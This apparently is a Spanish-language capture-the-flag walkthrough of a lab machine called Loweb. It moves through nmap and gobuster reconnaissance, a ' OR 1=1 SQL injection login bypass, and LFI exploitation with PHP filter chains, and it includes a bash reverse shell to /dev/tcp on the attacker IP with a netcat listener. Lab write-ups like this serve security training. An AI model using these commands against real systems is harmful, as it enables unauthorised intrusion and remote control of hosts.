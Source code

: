 # Máquina Loweb

### Reconocimiento de la Ip de la máquina víctima

![alt text](image.png)

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.135

![alt text](image-1.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p80 vvv -Pn 192.168.42.135

![alt text](image-2.png)



### Fuzzing Web

gobuster dir -t 200 -u http://192.168.42.135/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html,db,png,jpg,git -b 403,404 2>/dev/null

![alt text](image-3.png)

Fuzzing web a library

gobuster dir -t 200 -u http://192.168.42.135/library/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html,db,png,jpg,git -b 403,404 2>/dev/null

![alt text](image-4.png)

### Accedemos a /library/admin

Nos encontramos con un formulario de login que fácilmente podemos ingresar utilizando ' OR 1=1 -- -

![alt text](image-5.png)

Inicio de sesión exitoso:

![alt text](image-6.png)

### Explotación

inspeccionamos la página con ctrl + u y encontramos un LFI:

![alt text](image-7.png)

Usando wrappers con la herramienta php_filter_chain_generator 

pasos a seguir:

a.- Creamos una reverse shell llamada r con el siguiente contenido:

nano r

bash -i >& /dev/tcp/192.168.42.133/443 0>&1 

![alt text](image-8.png)

b.- Iniciamos un servidor web con python en la carpeta donde creamos el r

python3 -m http.server 80

![alt text](image-9.png)

c.- Nos ponemos en escucha con netcat por el puerto 443

nc -nlvp 443

d. En la carpeta php_filter_chain_generator, ejecutamos

![alt text](image-11.png)

generará un wrapper

e.- Pegamos el wrapper  en la url de esta manera:

ejemplo:

http://192.168.42.135/library/admin/index.php?lang=wrapper

f.- Tenemos acceso

![alt text](image-10.png)

### Escalar privilegios

En el directorio home hay 1 usuario

![alt text](image-12.png)


busqué en todos los archivos desde la raíz para ver encuentro alguna contraseña:

![alt text](image-13.png)

cambiamos al usuario r3dh4ck

![alt text](image-14.png)

sudo -l

![alt text](image-15.png)

![alt text](image-16.png)